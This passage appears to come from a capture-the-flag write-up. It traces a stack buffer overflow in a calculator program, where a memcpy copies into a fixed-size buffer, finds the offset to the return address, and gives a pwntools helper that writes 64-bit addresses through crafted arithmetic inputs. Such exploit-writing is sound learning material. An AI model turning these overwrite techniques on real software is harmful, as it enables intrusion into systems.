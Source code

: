 ```c
  else {
    puts("Invalid number.");
  }
  return 0;
}
```

Can you see it?
```c
--> buf[40];
...
--> results = (int *)malloc((long)(n_calcs << 2));
...
--> memcpy(buf, results,(long)(n_calcs << 2));
```

So we dynamically allocate a buffer to hold the results of our calculations, and then we copy them over to a buffer of static size...
We finally see an exploit that doesn't abuse `gets` :)
This is going to be fun.  

## Exploitation  

first we want to figure out the offset between the buffer and the return address so that we know how much data to write  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/e0764f19-f77c-4306-a23c-a8bb098bcdff)  
Therefore we need to write 18 integers worth of data before we reach the return address.  

### Writing to memory  

Now, before we do anything we have to figure out how we are going to write data into memory.
Since what we are writing are the results of our calculations, we have to use the functions to make sure the result of our calculations are the correct values.  
Also, we are writing integers (4 bytes), whereas our addresses and registers are 64 bits (8 bytes).  
That means that we need to separate the high bits from the low bits and write them separately such that in memory we have the correct 64 bit value.

```python
def write(addr, io = io):   
    #extract higher and lower bits
    upperbits = (addr >> 32) & 0xffffffff
    lowerbits = addr & 0xffffffff

    # using the sub function to write

    n1 = 0x28 + lowerbits
    n2 = 0x28
    io.sendline(b'2')
    io.sendline(bytes(str(n1),'ascii'))
    io.sendline(bytes(str(n2),'ascii'))

    n1 = 0x28 + upperbits
    n2 = 0x28
    io.sendline(b'2')
    io.sendline(bytes(str(n1),'ascii'))
    io.sendline(bytes(str(n2),'ascii'))

    log.info('Wrote the bytes '+hex(addr))
```

